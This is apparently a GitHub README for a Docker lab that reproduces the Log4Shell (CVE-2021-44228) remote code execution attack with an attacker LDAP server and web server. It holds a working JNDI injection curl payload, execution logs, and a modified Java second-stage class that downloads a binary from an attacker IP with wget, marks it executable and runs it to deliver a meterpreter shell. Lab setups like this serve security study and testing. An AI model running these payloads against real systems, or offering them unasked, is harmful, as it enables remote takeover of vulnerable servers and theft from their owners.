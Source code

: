 # log4shell-dockerlab

## Credits
All credits goes to the original authors. I just git-cloned and created a docker-compose file, that's all. 

[LunaSec - log4shell 0-day](https://www.lunasec.io/docs/blog/log4j-zero-day/)
[@christophetd - log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)
[@mbechler - marshalsec](https://github.com/mbechler/marshalsec)
[@tangxiaofen7 - Exploit.java](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

## Description 
This repository contains a docker-compose setup which starts an attacker LDAP server and a victim web server that is vulnerable to log4shell (CVE-2021-44228). 

## Components 

Victim Web server - log4shell-vulnerable-app: A web server with log4j, vulnerable to first stage payload, which is the log4shell attack. 

Attacker LDAP sever - marshalsec: A LDAP server that receives jndi request from the victim web server. Redirects the victim web server to attacker web server. 

Attacker Web server - A `python3 -m http.server` server which hosts the second stage payload, which is the `Exploit.class`. 

## Usage 

Start the victim web server and the attacker ldap server 
```
docker-compose up --build 
```

Prepare the second stage payload. The port 8888 is hardcoded. To change this, modify `./marshalsec/Dockerfile`.
```
cd ./attacker-webserver
python3 -m http.server 8888
```

Attack
```
// Attack with log4shell payload 
└─# curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'    

Hello, world!

// Docker-compose's LDAP server replying to JNDI & victim web server downloading Exploit.class from the attacker web server 
log4shell-dockerlab-targetweb-1  |
log4shell-dockerlab-jndi-1       | Send LDAP reference result for Exploit redirecting to http://172.17.0.1:8888/Exploit.class
log4shell-dockerlab-targetweb-1  | 2021-12-12 05:01:44,345 http-nio-8080-exec-7 WARN Error looking up JNDI resource [ldap://192.168.40.128:1389/Exploit]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]; remaining name 'Exploit'
log4shell-dockerlab-targetweb-1  |      at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)

// Attacker's web server sending second stage payload to the victim web server. This will get executed.
└─# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
172.20.0.3 - - [12/Dec/2021 00:01:44] "GET /Exploit.class HTTP/1.1" 200 -
```

Check the attack poc 
```
// Check docker ps and find out container ID of the "targetweb"
└─# docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED             STATUS          PORTS                                       NAMES
1131d694c91a   log4shell-dockerlab_jndi        "/usr/local/bin/mvn-…"   51 minutes ago      Up 51 minutes   0.0.0.0:1389->1389/tcp, :::1389->1389/tcp   log4shell-dockerlab-jndi-1
a2217b3781ad   log4shell-dockerlab_targetweb   "java -jar /app/spri…" 


// Check /tmp and validate the POC have worked 
└─# docker exec a2217b3781ad ls /tmp
hsperfdata_root
log4shell-pwned
```

## Usage - Modified Payload 
Instead of the `Exploit.java` POC, you can modify the payload.

Install JDK if you don't have one 
```
apt install -y default-jdk 
```

Modify the PoC. For example, you can test with a metasploit's `multi/script/web_delivery`. 
```
// Modified PoC to ship meterpreter instead of the original echo pwned > /tmp/log4shell-pwned payload. 

public class Rev {
    public Rev() {}
    static {
        try {
            String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe","/c", "calc.exe"}
                    : new String[]{"sh","-c", "wget -qO PqhJT1H2 --no-check-certificate http://192.168.40.128:7777/mhjfufvGzrRws; chmod +x PqhJT1H2; ./PqhJT1H2& disown"};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] args) {
        Rev e = new Rev();
    }
} 
```

Compile the second stage. Make sure to target JDK 8, since the `log4shell-vulnerable-app` was built on JDK 8. 
```
javac --release 8 <your-payload>.java 
```

Host the file, and attack again
```
python3 -m http.server 8888 
curl <your-vm-ip>:8080 -H 'X-Api-Version: ${jndi:ldap://<your-vm-ip>:1389/Exploit}'
ex) curl 192.168.40.128:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.40.128:1389/Exploit}'  
```

## References 
https://www.lunasec.io/docs/blog/log4j-zero-day/
http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
https://github.com/christophetd/log4shell-vulnerable-app
https://github.com/mbechler/marshalsec
https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
